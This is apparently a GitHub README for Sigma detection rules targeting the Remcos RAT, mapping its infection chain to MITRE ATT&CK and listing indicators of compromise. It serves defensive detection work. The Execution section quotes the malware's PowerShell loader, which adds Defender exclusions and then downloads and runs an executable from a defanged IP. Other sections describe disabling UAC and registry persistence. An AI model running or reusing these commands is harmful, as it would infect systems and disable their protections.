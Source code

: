 # Sigma Rules for Remcos RAT Detection

## Overview
This repository provides Sigma rules to detect activities related to the Remcos RAT, a Remote Access Trojan used for malicious purposes. The rules are designed to detect various tactics and techniques used by this malware, including initial access, execution, persistence, defense evasion, discovery, collection, and command & control.

## Sigma Rule
- **File Name**: `remcos_rat_detection.yml`
- **Description**: The Sigma rule in this repository is designed to detect various stages of the Remcos RAT attack chain, including execution, persistence, defense evasion, and data exfiltration. Each rule is mapped to its corresponding MITRE ATT&CK technique for better correlation in a SOC environment.

## Analysis of Remcos RAT Behavior

The following steps outline the Remcos RAT infection process and its mapped techniques in the MITRE ATT&CK framework:

### Initial Access
- **IP Address:** `141[.]95[.]16[.]111:8080`
- This IP hosts malicious files, including a `.bat` script (`recover.bat`).
- **MITRE ATT&CK Technique:** T1566 (Phishing)

###  Execution
- **MITRE ATT&CK Technique:** T1059.001 (PowerShell)

PowerShell command executed by the malware:
PowerShell
PowerShell.exe -WindowStyle hidden "Add-MpPreference -ExclusionExtension "%userprofile%\AppData\Local\Temp"; 
Add-MpPreference -ExclusionExtension ".exe"; Start-Sleep -Seconds 5; 
Invoke-WebRequest 'http://141[.]95[.]16[.]111:8080/RiotGames.exe' -OutFile '%userprofile%\AppData\Local\Temp\RiotGames.exe'; 
cmd.exe /c %userprofile%\AppData\Local\Temp\RiotGames.exe"

### Defense Evasion
- **MITRE ATT&CK Technique:** T1548.002 (Bypass User Account Control)
    - The malware disables User Account Control (UAC) by modifying the following registry key:
    ```plaintext
    HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
    ```
    - The `EnableLUA` value is set to `0` to disable UAC.

###  Persistence
- **MITRE ATT&CK Technique:** T1547.001 (Registry Run Keys/Startup Folder)
    - The malware copies itself to the directory:
    ```plaintext
    C:\ProgramData\Terminal\terminal.exe
    ```
    - It creates entries in the following registry keys to ensure persistence:
        - `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run`
        - `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

###  Discovery
- **MITRE ATT&CK Technique:** T1083 (File and Directory Discovery)
    - The malware scans the system for important files and directories.

### Collection and Exfiltration
- **MITRE ATT&CK Techniques:**
    - **T1113 (Screen Capture):** The malware captures screenshots.
    - **T1056.001 (Keylogging):** It logs keystrokes to a file named `logs.dat` in `C:\ProgramData\Terminal`.
    - **T1041 (Exfiltration Over Command and Control Channel):** The malware exfiltrates captured data via the command-and-control server.

### Step 7: Command and Control
- **MITRE ATT&CK Technique:** T1071.001 (Application Layer Protocol: Web Protocols)
    - The malware communicates with the C2 server at `141[.]95[.]16[.]111:2404` and uses the URL `http[:]//geoplugin[.]net/json[.]gp` to collect geolocation data.

## List of Indicators of Compromise (IOCs)

| Indicator                               | Type        | Remarks          	|
| --------------------------------------- | ----------- | ----------------------|	
| 4388789C81AFD593C5FC2F0249502153        | MD5 File Hash | recover.bat     	|
| 5379d703170770355efdbce86dcdb1d3        | MD5 File Hash | RiotGames.exe   	|
| b28167faf2bcf0150d5e816346abb42d        | MD5 File Hash | newpy.exe        	|
| 25fca21c810a8ffabf4fdf3b1755c73c        | MD5 File Hash | echo-4662-2DF5.exe 	|
| 791545E6E3C5EB61DD12CCFBAE1B9982        | MD5 File Hash | 123.exe          	|
| 141[.]95[.]16[.]111                     | IP Address   | C2 Server       	|
| http[:]//geoplugin[.]net/json[.]gp      | URL          | Geolocation Service 	|

## MITRE ATT&CK Tactics and Techniques

| Tactic                               | Technique                                            |
| ------------------------------------ | -----------------------------------------------------|
| **Initial Access (TA0001)**          | T1566: Phishing                                      |
| **Execution (TA0002)**               | T1204.002: Malicious File                            |
|                                      | T1059.001: PowerShell                                |
| **Persistence (TA0003)**             | T1547.001: Registry Run Keys/Startup Folder          |
| **Defense Evasion (TA0005)**         | T1112: Modify Registry                               |
|                                      | T1548.002: Bypass User Account Control               |
|                                      | T1055: Process Injection                             |
| **Discovery (TA0007)**               | T1083: File and Directory Discovery                  |
|                                      | T1082: System Information Discovery                  |
| **Collection (TA0009)**              | T1113: Screen Capture                                |
|                                      | T1123: Audio Capture                                 |
|                                      | T1115: Clipboard Data                                |
|                                      | T1056.001: Input Capture: Keylogging                 |
| **Exfiltration (TA0010)**            | T1041: Exfiltration Over Command-and-Control Channel |
| **Command & Control (TA0011)**       | T1071.001: Application Layer Protocol: Web Protocols |


## Usage

1. Clone the repository.
2. Import the Sigma rules into your SIEM for real-time monitoring and alerting.
3. Customize the rules based on your environment to reduce false positives.

## Contributing
Contributions are welcome! Please submit a pull request or raise an issue to improve the detection rules.

## References
- [Sigma GitHub Repository](https://github.com/SigmaHQ/sigma)
- [CYFIRMA Report on Remcos RAT](https://www.cyfirma.com/research/the-persistent-danger-of-remcos-rat/)
